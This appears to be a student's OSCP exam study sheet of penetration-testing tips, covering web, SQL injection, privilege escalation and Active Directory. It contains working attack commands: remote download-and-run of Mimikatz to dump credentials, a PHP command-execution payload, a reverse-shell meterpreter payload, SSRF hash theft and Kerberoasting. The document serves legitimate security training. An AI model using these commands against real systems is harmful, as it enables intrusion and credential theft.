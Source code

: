 ```yaml
---
description: Just some rough notes in preparation for the OSCP.
---
```


# OSCP Notes

### Enumeration

* Ensure you run FeroxBuster or GoBuster with file extensions identified throughout inital enumeration of the device.

### Web Application

* If you are getting the following message `You are not a search engine. Permission denied.` when attempting to browse to robots.txt then set your user agent in Burp to the following:&#x20;
  * `User-Agent: Googlebot/2.1 (+http://www.googlebot.com/bot.html)`
* If a login page default password doesn't work then think of what a lazy admin would use (uppercase and lowercase). CeWL can be used here if you're running out of ideas.
* If a web application is vulnerable to SSRF and the host is Windows, you may be able to retrieve a Net-NTLMv2 hash. The following command assumes that the web server is running on TCP/8080:
  * `http://:8080/?url=http://127.0.0.1:8080/?url=http://<RESPONDER_IP>`
  * [This attack is explained amazingly in this blog post](https://blog.blazeinfosec.com/leveraging-web-application-vulnerabilities-to-steal-ntlm-hashes-2/).
* If a WebDav directory is discovered during enumeration then it should be noted that an LFI vulnerability could be used to obtain the password and upload a PHP shell. The following is an example of a Webdav password location:
  * `/var/www/html/webdav/passwd.dav`
  * [HackTricks has a great guide](https://book.hacktricks.xyz/pentesting/pentesting-web/put-method-webdav) on uploading a shell with Curl or other methods of exploitation.
* When testing[ Remote File Inclusion](../web-application/remote-file-inclusion-rfi.md) keep in mind that the port being tested matters.&#x20;
  * Use a common port such as 80 or 443 on your Python3 server when testing.

### SQL Injection (SQLi)

* Oracle SQLi - [This link](http://www.securityidiots.com/Web-Pentest/SQL-Injection/Union-based-Oracle-Injection.html) is beyond useful. Ensure your syntax is correct with Oracle because it can be a pain.

### Initial Access

* Always try to login with default passwords and with using the username as a password. For example, if a username has been identiifed as `parzival` try and login with the password `parzival`
* Sometimes a simple wordlist can be your friend.. Ensure dumb combinations are attempted  like `admin:admin`
* If testing for Shellshock on SMTP then I have found[ this exploit ](https://github.com/3mrgnc3/pentest\_old/blob/master/postfix-shellshock-nc.py)to be the most reliable. It requires a valid email address so ensure you run `VRFY` to enumerate a valid email prior to execution.
* If you can access the Apache logs through LFI and observe the 'User Agent' is viewable, we can potentially specify our user agent to PHP code and execute that on the target machine. [This video from John Hammond](https://www.youtube.com/watch?v=u\_uuk7FWWF4) is a great example.
  * Using this we can potentially turn an LFI into RCE. An example user agent would be the following: `User-Agent: <?php system(\$_GET['c']); ?>`
* Log into the SMTP server to identify the version if it is not returned in the Nmap scan. Identifying Postfix means that multiple exploits from Searchsploit may work: `searchsploit postfix`

### Privilege Escalation - Linux

* If LinPEAS doesn't return anything useful then it is possible you already have the information needed to privilege escalate. Try default passwords, [priv esc with fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/), and other common tricks.
* For privilege escalation with fail2ban, use a netcat shell or modify the permissions of `/etc/shadow`
  * [Amazing Guide on Privilege Escalation with Fail2ban](https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/)
* If there are no writable directories then just pipe LinPEAS (or other tool of choice) directly into bash:
  * `curl 10.10.10.1:8080/linpeas.sh | bash`
  * Run the following command to identify possible priivlege escalation efforts:
    * `which awk perl python ruby gcc cc vi vim nmap find netcat nc wget tftp ftp 2>/dev/null`

### Privilege Escalation - Windows

* PowerShell Empire has some great PS1 scripts readily available such as `Invoke-Watson` and `Invoke-MS16032` as examples. Their `Mimikatz.ps1` is also great. These can be accessed at `/usr/share/powershell-empire/empire/server/data/module_source/`
* Unable to get Mimikatz onto a machine? Simply host a http server and execute the following:
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -DumpCreds`&#x20;
  * `powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.119.164:8080/Invoke-Mimikatz.ps1') ; Invoke-Mimikatz -Command lsadump::sam`
* Mimikatz errors? Need to downgrade your version? Use the version availabke at [this link](https://gitlab.com/kalilinux/packages/mimikatz/-/tree/d72fc2cca1df23f60f81bc141095f65a131fd099/).

### Session Passing

* If you have a shell via Netcat on a Windows machine, try using Curl to download a  ps1 to the target and executing it.
  * `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f psh -o meterpreter-64.ps1`

### Active Directory

* You can perform post exploitation activities such as Kerberoasting with a machine account. This may be important if you cannot find another path to exploitation:
  * `GetUserSPNs.py -request 'DOMAIN/MACHINE$' -dc-ip DC -hashes 'LM:NTLM'`
* PowerView is your best friend when attempting to pivot. Run the following commands to get the lay of the land and perform exploitation activities.

#### Get Domain Computers

* `Get-NetUser * -Domain corp.local | Select-Object -Property name,samaccountname,description,memberof,whencreated,pwdlastset, lastlogontimestamp,accountexpires,admincount,userprincipalname, serviceprincipalname, mail,useraccountcontrol | Export-CSV users.csv`

#### Get Domain Computers

* `Get-NetComputer * -Domain corp.local | Select-Object -Property dnshostname,operatingsystem,operatingsystemservicepack,lastlogontimestamp | Export-CSV computers.csv`

#### SPN Ticket Request

* `Get-DomainUser * -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | Export-Csv .\ticket.csv -NoTypeInformation`

### General Tips and Tricks

* Transferring a file such as a .doc to a FTP share? Reminder to use `binary` before doing so or else it will upload as ASCII.&#x20;
* When enumerating FTP, ensure you run `dir -a` to enumerate any hidden files or directories on the system. You may find l00t!
* Metasploit and Meterpreter are only allowed against one machine in the exam so ensure that you are sure before executing. There may be other ways to accomplish what you want (e.g., CrackMapExec, Lsassy, etc).&#x20;

### Helpful Blogs

* [List of Kerberos attacks with different tooling](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

### Helpful OSCP Cheatsheets

* [OSCP Enumeration Cheatsheet](https://strongcourage.github.io/2020/05/03/enum.html)
* [iRedTeam Cheatsheet](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets)

References While Building my Notes

* [FareedFauzi's Notes](https://fareedfauzi.gitbook.io/oscp-notes/others/active-directory-attack)
* [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts)
